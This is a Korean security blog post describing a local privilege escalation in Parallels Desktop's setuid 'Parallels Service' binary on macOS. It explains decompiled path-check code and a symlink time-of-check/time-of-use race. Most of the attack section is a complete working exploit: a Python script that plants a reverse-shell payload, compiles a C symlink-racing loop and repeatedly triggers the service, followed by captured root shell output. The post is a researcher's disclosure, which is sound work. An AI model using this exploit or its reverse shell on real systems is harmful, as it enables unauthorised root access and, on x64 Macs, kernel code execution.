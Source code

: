 ```yaml
---
layout: post
title: "Parallels Host LPE 날먹하기"
author: "say2"
tags: [parallels,bughunting]
categories: [Hacking,Bughunting]
---
```



시간과 마음이 살짝 붕떠서 블로그나 관리하려고 찾아와서 쓰는 글이다.

작년 5월쯤 찾은 오래된 버그이지만, 버그를 찾을때 상황이 재밌었어서 기억에 많이 남는 버그이다. 

뭐 특별한건 없고, 남자친구 훈련소 마중하려고 기다리면서 끄적거리다가 찾았다.

버그는 그냥 노트북에 아래 커맨드를 실행해보는것으로 시작되었다. 

```bash
➜ find /Applications -perm -4000
...
/Applications/Parallels Desktop.app/Contents/MacOS/prl_update_helper
/Applications/Parallels Desktop.app/Contents/MacOS/Parallels Service
```	

그냥 setuid바이너리가 있나 하고 커맨드를 입력해봤는데, 있었다.(단순한 접근방법은 의외로 잘 먹힌다.) 

이중 `Parallels Service` 를 분석해보았다. 

이 친구는 parallels 에 필요한 서비스들과 kernel extension을 로드하는 역할을 하는 바이너리였다. 

m1 mac의 경우에는 서비스들만 로드를 하고, x64 mac의 경우에는 kernel extension까지 로드를 한다. (따라서 취약점으로 x64에서는 kernel code execution까지 가능하다)

이 녀석이 서비스와 커널을 로드하는 방식은 간단하다. binary에 script가 텍스트로 박혀있고, binary상에서는 그냥 필요한 path정도만 찾아서 script에 인자로 넘겨주는 형태이다.(기억이 가물가물한데 그랬다.)

`/Applications/Parallels Desktop.app/Contents/MacOS/Parallels Service argv[1]` 형태로 실행시키면 스크립트 argv를 이런식으로 넘겨준다. 

`./script.sh argv[1] Application_path`

`argv[1]`에는 `service_start`, `service_stop` 과 같이 서비스 동작과 관련된 커맨드가 들어가고 `Application_path` 는 해당 바이너리에서 Application path(`/Applications/Parallels Desktop.app/` 를 동적으로 찾아서 `script.sh`의 argv로 넘겨준다. 

Application_path를 찾는 이유는 `Parallels Service`가 로드해야할 service binary(prl_naptd 등)와 kernel extension을 Applicaiton_path로 부터 상대경로로 찾아가기 떄문이다. 

그렇다면 이 Application_path를 어떤식으로 `Parallels Service` 바이너리가 찾는지가 궁금하다. 이 path를 조작할 수 있다면, 내가 조작할 수 있는 경로에 있는 binary를 service로 생각하여 root권한으로 실행될 수 있음을 의미한다. (혹은 x64에서는 내 kernel extension파일을 로드시킬 수도 있다)

아래 코드가 Application_path를 찾는 함수이다. 


```c
__int64 sub_100005BB0()
{
  ...

  bufsize[0] = 0;
  if ( _NSGetExecutablePath(0LL, bufsize) != -1 )
    return 0LL;
  v2 = (char *)malloc(bufsize[0]);
  if ( !v2 )
    return 0LL;
  v3 = v2;
  if ( _NSGetExecutablePath(v2, bufsize) )
    return 0LL;
  v4 = dirname(v3);
  if ( !v4 )
    return 0LL;
  v5 = v4;
  v6 = strlen(v4);
  v7 = (char *)calloc(1uLL, v6 + 7);
  if ( !v7 )
    return 0LL;
  v8 = v7;
  strcpy(v7, v5);
  strcpy(&v8[strlen(v5)], "/../..");
  v0 = realpath_DARWIN_EXTSN(v8, 0LL);
  free(v8);
  return v0;
}
```

`NSGetExecutablePath`라는 함수를 이용해서 경로를 찾아내는데, 해당 함수는 Mac에서 현재 실행된 바이너리의 경로를 가져올때 쓰인다. 

즉 위 함수는 바이너리 위치가 `/Applications/Parallels Desktop.app/Contents/MacOS/Parallels Service` 이기 때문에 바이너리의 path를 통해서 상대경로로 Application_path인  `/Applications/Parallels Desktop.app` 을 찾으려는 의도로 보여진다. 

NSGetExecutablePath의 경우에는 apple의 문서에 따르면
```Note that _NSGetExecutablePath() will return "a path" to the executable not a "real path" to the executable.```

즉, symbolic link를 사용하면 실제 경로가 아니라 symbolic link의 경로를 가져오게 된다. 그래서 위의 함수는 symoblic link로 Application_path를 조작할 수 있다. 

하지만 바이너리의 초반에 다음과 같은 함수가 있었다. 


```c
__int64 sub_100006650()
{
...

  bufsize[0] = 0;
  if ( _NSGetExecutablePath(0LL, bufsize) == -1
    && (v2 = (char *)malloc(bufsize[0])) != 0LL
    && (v3 = v2, !_NSGetExecutablePath(v2, bufsize)) )
  {
    sympath = dirname(v3);
    free(v3);
    if ( sympath )
    {
      v5 = open("/Library/Preferences/Parallels/parallels-desktop.loc", 0);
      if ( v5 == -1 )
      {
        ...
      }
      else
      {
        v6 = v5;
        v0 = sub_100006470(v5, bufsize, 1024LL);
        close(v6);
        if ( v0 )
          return v0;
        if ( (unsigned int)snprintf(realpath, 0x400uLL, "%s/Contents/MacOS", (const char *)bufsize) < 0x400 )
          return (unsigned int)compare_100006590((__int64)sympath, (__int64)realpath);
          ...

}
```

역시 `NSGetExecutablePath`를 통해서 현재경로를 가져온 뒤에, `/Library/Preferences/Parallels/parallels-desktop.loc`파일에 저장되어있는 경로랑 비교를 해서 같지 않으면 종료시켜버린다. (이렇게 할거면 그냥 `NSGetExecutablePath`를 쓰지 않고 해당 파일의 경로를 그대로 쓰는게 낫지 않나 싶다.)

```
➜  parallels cat /Library/Preferences/Parallels/parallels-desktop.loc
/Applications/Parallels Desktop.app%
```

즉, symbolic link를 썼는지 검사하는 함수인 듯하다.

조심스럽게 추측해보자면, 위와 같이 symbolic link를 이용해서 lpe하는 취약점이 존재했었고 이 함수는 그 취약점에 대한 패치가 아니었나 싶다. 

재밌는건 해당 함수(sub_100006650)와 위의 Applicaiton path를 가져오는 함수(sub_100005BB0)에서 각각 `NSGetExecutablePath`함수를 사용한다는 것이다. 

여기서 symbolic링크로 TOC TOU를 생각해볼 수 있다. 

`sub_100006650` 에서는 sym->/Applications/Parallels Desktop.app/Contents/MacOS/Parallels Service

`sub_100005BB0` 에서는 sym->/tmp/xxxx

로 만든다면 위의 symbolic link check함수를 우회할 수 있다. 

symbolic link를 바꿔줌으로써 race condition을 만들면 된다. 

당시에 코드를 왜 이렇게 짰는지 모르겠는데, 급하게 코드짜서 훈련소를 갔어야 했던것 같다.

```python
#!/usr/bin/python3
import os
import time
'''
➜  tmp nc -l 1234

The default interactive shell is now zsh.
To update your account to use zsh, please run `chsh -s /bin/zsh`.
For more details, please visit https://support.apple.com/kb/HT208050.
bash-3.2# id
id
uid=0(root) gid=0(wheel) egid=20(staff) groups=0(wheel),1(daemon),2(kmem),3(sys),4(tty),5(operator),8(procview),9(procmod),12(everyone),20(staff),29(certusers),61(localaccounts),80(admin),701(com.apple.sharepoint.group.1),33(_appstore),98(_lpadmin),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh),400(com.apple.access_remote_ae)

if x86_64 arch, it can be kernel code execution 
'''

try:
	os.makedirs("/tmp/d1/d2")
	os.symlink("/Applications/Parallels Desktop.app/Contents/MacOS/Parallels Service","/tmp/d1/d2/hello")
	os.makedirs("/tmp/Contents/MacOS")
except:
	pass
rev_shell=b"export RHOST=\"127.0.0.1\";export RPORT=1234;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv(\"RHOST\"),int(os.getenv(\"RPORT\"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/bash\")'"
open("/tmp/Contents/MacOS/prl_net_start",'wb').write(rev_shell)

race_code=b'''#include <sys/types.h>
#include <unistd.h>
#include <sys/stat.h>
#include <stdio.h>
int main(){
	char *path="/tmp/d1/d2/dd";
	int err;
	while(1){
		// unlink(path);
		err=symlink("/Applications/Parallels Desktop.app/Contents/MacOS/",path);
		unlink(path);
		err = symlink("/tmp/d1/d2",path);
		unlink(path);		
	}
}'''

open("/tmp/race.c","wb").write(race_code)
os.system("gcc -o /tmp/race /tmp/race.c;/tmp/race &")
time.sleep(0.5)
while(1):
	os.system("/tmp/d1/d2/dd/hello service_start")
```

왜 이런 취약점이 2021년까지 있었는지는 모르겠지만,

취약점이 쉬운만큼 아직까지는 parallels의 보안이 강하지 않음을 느낀다. 훌륭한 맥용 hypervisor임은 틀림없지만 보안성에 대해서는 좀 더 신경쓸 필요가 있어보인다.
